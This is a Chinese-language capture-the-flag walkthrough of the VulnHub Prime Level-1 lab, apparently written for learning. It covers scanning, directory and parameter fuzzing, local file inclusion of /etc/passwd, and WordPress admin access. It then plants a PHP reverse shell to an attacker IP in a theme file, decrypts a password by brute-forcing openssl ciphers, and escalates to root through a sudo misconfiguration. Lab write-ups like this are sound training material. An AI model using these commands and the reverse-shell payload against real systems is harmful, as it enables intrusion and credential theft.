

# 靶场考察知识

## Wordpress

WordPress是一个免费的开源内容管理系统（CMS），可以用来创建和管理网站或博客。它是由PHP语言和MySQL数据库构建的，并且拥有大量的插件和主题，可以让您轻松地自定义网站的外观和功能

<br>

## Wpscan扫描工具

WPScan是一款开源的WordPress安全扫描工具，常用于渗透测试WordPress网站。它运行在Kali Linux操作系统上，也可以在其他类Unix系统（如MacOS和Linux）上使用。

WPScan可以帮助您扫描WordPress网站以寻找漏洞，并尝试利用这些漏洞获得对目标网站的访问权限。它还可以帮助您识别目标网站使用的WordPress版本、插件和主题，并检测是否存在已知的漏洞, 下面是WPScan的一些常用操作:

**1.扫描WordPress网站,列出发现的漏洞和配置问题**

```
wpscan --url <target_url>
```

**2.枚举WordPress网站的用户**

```
wpscan --url <target_url> --enumerate u
```

**3.列出WordPress网站所有安装的插件, 并检查是否存在可利用的漏洞**

```
wpscan --url <target_url> --enumerate p
```

**4.列出WordPress网站使用的所有主题, 并检查是否存在可利用的漏洞**

```
wpscan --url <target_url> --enumerate t
```

<br>

## Openssl加解密

Openssl是一个用于实现各种加密和安全协议的开源工具。可以使用`openssl enc`命令来加密文件，并使用`openssl enc -d`命令来解密加密文件

<br>

# 靶场搭建

prime靶场下载地址: https://download.vulnhub.com/prime/Prime_Series_Level-1.rar

<br>

# 渗透步骤

## 信息收集

### 1.namp扫描

扫描C段存活主机`nmap -sn 192.168.47.0/24`, 确定prime靶场主机为`192.168.47.158`

	

<br>

扫描开放端口, 只有22和80端口处于开放状态

	

		

<br>

### 2.dirb目录爆破

使用dirb对目标主机80端口进行爆破, 并将结果保存在当前文件夹的DirbReport.txt, 扫描结果如下图所示

```
dirb http://192.168.47.158 -o DirbReport.txt
```

	

<br>

访问目标网站的根目录, 只发现了一张kali图标图片, 没有其他线索


<br>

访问`/dev`目录, 页面提示意思, "你爆破的不够狠, 还需继续往深一点爆破", 也就是说它要求我们继续使用Dirb爆破, 从而获取更多信息


<br>

调整一下Dirb的使用参数, 爆破后缀名为txt和zip的文件(往往提示信息都是以文本文件为主), 扫描结果显示, 存在`secret.txt`文件

```
dirb http://192.168.47.158 -X .txt,.zip 
```

	

<br>

访问`http://192.168.47.158/secret.txt`, 页面显示一段话, 简单来说就是要我们对找到的每个php页面进行参数爆破, 并给予文章提供参考(https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web), 最后一段话还提示我们要获取了location.txt文件才能进行下一步的操作			

	

<br>

根据上面的提示, 使用dirb对php页面进行爆破, 爆出`image.php`和`index.php`

```
dirb http://192.168.47.158 -X .php
```

	

<br>

### 3.wfuzz参数爆破

读取这篇github文章, 要求我们要用wfuzz命令来对php页面进行参数爆破, 还给了一行命令来演示: `wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://website.com/secret.php?FUZZ=something`

> --hc 404表示不显示状态码为404的页面


<br>

使用如下命令对index.php的参数进行爆破, 从爆破结果来看, 出现了很多无效信息, 我们可以通过`--hc`或`--hw`, `--hh`来过滤信息

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://192.168.47.158/index.php?FUZZ=something
```


<br>

使用`--hh`参数排除页面响应长度为136的数据, 最终只显示一个参数结果: `file`

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136 http://192.168.47.158/index.php?FUZZ=something
```


<br>

访问file参数: `curl http://192.168.47.158/index.php?file`  , 页面显示:"干的不错, 但你挖的是一个错误的文件", 也就是说file参数没有指定正确的文件									

<br>

综合上述secret.txt中的最后一段话:"注意location.txt这个文件, 后续的操作你需要用到它", 或许这个file参数的值可以修改为location.txt

```
curl http://192.168.47.158/index.php?file=location.txt
```


从页面显示内容上看, 它要求你在其他php页面使用"secrettier360"参数, 也就是说要在image.php使用secrettier360参数

<br>

访问image.php页面并配合secrettier360参数, 页面显示"最终你找到了正确的参数"

```
curl http://192.168.47.158/image.php?secrettier360
```

	

<br>

## Web渗透

### 1.文件包含漏洞

既然上述的提示说了secrettier360这个参数是正确的, 那么可以尝试下本地文件包含漏洞, 读取系统用户信息

成功读取到了用户信息,并且在最后面的saket用户给予了我们重要信息: 在`/home/saket`目录下寻找password.txt文件

```
curl http://192.168.47.158/image.php?secrettier360=../../../../../../etc/passwd
```


<br>			

读取`/home/saket/password.txt`, 它给出的密码是`follow_the_ippsec`,  虽然我们不知道这个密码是用来干什么的, 但是我猜可能会是SSH远程登录或者网站管理员登录其中一个


<br>

先来尝试ssh远程登录, 在上述爆出的用户信息中, 可能登录成功的用户有两个, 分别是`victor`和`saket`, 经过ssh登录尝试后, 均登录失败


<br>

### 2.wordpress后台拿shell

从上述dirb爆破结果可知, 该网站是一个wordpress框架, 于是我们可以从该cms漏洞入手

	

<br>	

使用wpscan针对wordpress框架的网站进行特定漏洞扫描, 如下命令用于枚举网站用户

```
wpscan --url http://192.168.47.158/wordpress -e u
```

 结果显示只有一个victor用户, 在上述读取的用户信息中, 也有一个victor用户, 那么此用户很可能是管理员用户


<br>	

在上述的dirb爆破结果中, 已经爆出后台管理员页面, 当然凭借经验我们也可以大概清楚后台页面地址, 浏览器访问http://192.168.47.158/wordpress/wp-admin/user/admin.php, 然后尝试使用`victor`/`follow_the_ippsec`登录, 很幸运, 登录成功了


<br>

找到插件功能处, 首先尝试插件上传功能, 判断是否存在文件上传漏洞


<br>

这里要求我们上传zip格式的文件, 随便上传一个压缩文件, 然后点击install Now上传


<br>

文件上传失败, 提示父级目录没有写的权限


<br>

既然文件上传不行, 那么就从主题编辑入手, 依次排查所有主题文件, 寻找能够编辑(拥有写的权限)的页面, 最终发现secret.php可以编辑


<br>

在secret.php插入反弹Shell代码: `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.47.155/4444 0>&1'");?>`


<br>

我们可以通过搭建wordpress框架的网站来获取主题文件的网页路径,  这里secret.php的路径是`http://192.168.47.158/wordpress/wp-content/themes/twentynineteen/secret.php`

在kali开启监听, 然后访问secret.php触发反弹shell

	

<br>

## 主机提权

### 1.查看权限

输入sudo -l查看系统权限, 发现当前用户可以使用root权限, 而无需输入root用户密码执行`/home/saket/enc`

	

<br>

进入`/home/saket`目录, 当前目录下有password.txt和user.txt, 但是无法查看enc文件, 因为权限不足, 但是拥有执行的权限

			

<br>

执行enc文件, 随后要求输入当前用户的密码, 尝试输入password.txt里面的密码, 提示文件执行失败, 说明这个密码是错误的,我们还需要在此系统下深挖正确的密码

		

<br>

### 2.搜索密码备份文件

执行如下命令, 寻找系统的所有备份文件, 因为有时候管理员会在系统留有密码备份文件

```
find / -name '*backup*' 2>/dev/null  | less| sort
```

> - `find / -name '*backup*'`：这个命令在根目录（即 `/`）中搜索文件。`-name` 选项指定了搜索的文件名模式，在这里是 `'*backup*'`。这个模式表示任何文件名包含字符串 "backup" 的文件。`find` 命令会返回所有符合条件的文件的路径。
> - `2>/dev/null`: `/dev/null` 是一个特殊的文件，它的作用是丢弃所有写入它的数据。即将错误输出重定向到 `/dev/null` 就相当于丢弃所有错误信息(例如权限不足)，只保留正常输出
> - `| less`：管道符（`|`）将前一个命令的输出传递给后一个命令。在这里，`less` 命令是一个文本浏览器，它可以让你在终端中浏览文本文件。将 `find` 的输出传递给 `less` 可以让你在终端中更方便地查看找到的文件的路径。
> - `sort`：这个命令对前一个命令的输出进行排序。在这里，它将找到的文件的路径按字母顺序排序。

	

<br>

从上述结果来看, 此系统存在很多备份文件, 而我们要寻找的是文件名带有user或者pass这种比较可疑的, 例如`/opt/backup/server_database/backup_pass`

查看`/opt/backup/server_database/backup_pass`, 文件提示: enc文件密码为"backup_password"

	

<br>

### 3.openssl解密

使用sudo执行enc, 并输入密码`backup_password`, 随后在当前文件夹生成enc.txt和key.txt

	

<br>

首先查看enc.txt, 文件内容是一段base64加密的字符串

	

<br>

查看key.txt, 文件内容提示, 需要对"ippsec"字符串进行md5加密

	

<br>

对"ippsec"字符串进行md5加密: `echo -n "ippsec" | md5sum`, 加密后的字符串为`366a74cb3c959de17d61db30591c39d1`

> `echo -n` 表示 `echo` 命令不要输出换行符。这样，输出的字符串就不会换行，而是和 `md5sum` 的输出在同一行

	

<br>

在ctf靶场中看到enc和key这两个关键字, 第一时间就该想到openssl加解密, 也就是说要使用openssl命令, 通过key值去解密enc文件的加密字符串

首先查看openssl命令中支持哪些算法: `openssl --help`

	

<br>

将openssl中支持的加密算法名称保存在CryptType文件中

	

<br>

如下代码为openssl常用解密命令, "-d"参数表示解密，"-a"参数表示使用base64编码，"-K"参数表示使用的密钥(需为16进制), enc是OpenSSL的编码和加密的缩写，它是OpenSSL提供的一个命令行工具，用于加密和解密文件和信息

```shell
echo '{要解密的字符串}' | openssl enc -d -a -{解密算法} -K {key值}
```

<br>

首先要将key值"366a74cb3c959de17d61db30591c39d1"进行16进制编码, 可使用如下od命令

```shell
echo -n "366a74cb3c959de17d61db30591c39d1" | od -An -t x1
```

> - `-An` 表示不要输出地址信息。
> - `-t x1` 表示使用 16 进制编码输出每个字符

	

<br>

为了让结果看起来更加清晰, 可以使用tr命令删除结果里的空格和换行符, 最终16进制编码的结果是`3336366137346362336339353964653137643631646233303539316333396431`

```shell
echo -n "366a74cb3c959de17d61db30591c39d1" | od -An -t x1 | tr -d ' '
```

	

<br>

可以使用Shell代码批量使用openssl命令对字符串尝试各种算法进行解密, 最终的执行结果提示, saket用户的密码为"tribute_to_ippsec"

```shell
for i in $(cat CryptType);do echo 'nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=' | openssl enc -d -a -$i -K 3336366137346362336339353964653137643631646233303539316333396431 2>/dev/null echo $i;done
```

> 具体来说，这段代码会对CryptType文件中的每一行读取一个算法名称，然后使用openssl命令对字符串进行解密，其中使用的算法名称就是从CryptType文件中读取的。最后将解密结果和解密算法输出


<br>

### 4.获取flag

ssh远程登录saket用户, 并输入解密出来的密码

	

<br>

为了获取一个交互性更好的shell, 可使用python命令: `python -c 'import pty;pty.spawn("/bin/bash")'`

	

<br>

查看当前用户的权限, 发现可以使用root权限无密码执行`/home/victor/undefeated_victor`

	

<br>

执行此文件时提示没有`/tmp/challenge`, 它可能暗示我们去创建一个

	

<br>

在tmp目录下创建challenge文件, 并写入如下内容

```
#!/bin/bash
/bin/bash
```

		

<br>

赋予challenge可执行权限, 随后执行`/home/victor/undefeated_victor`, 成功获取root权限

	

<br>

获取flag.txt

	


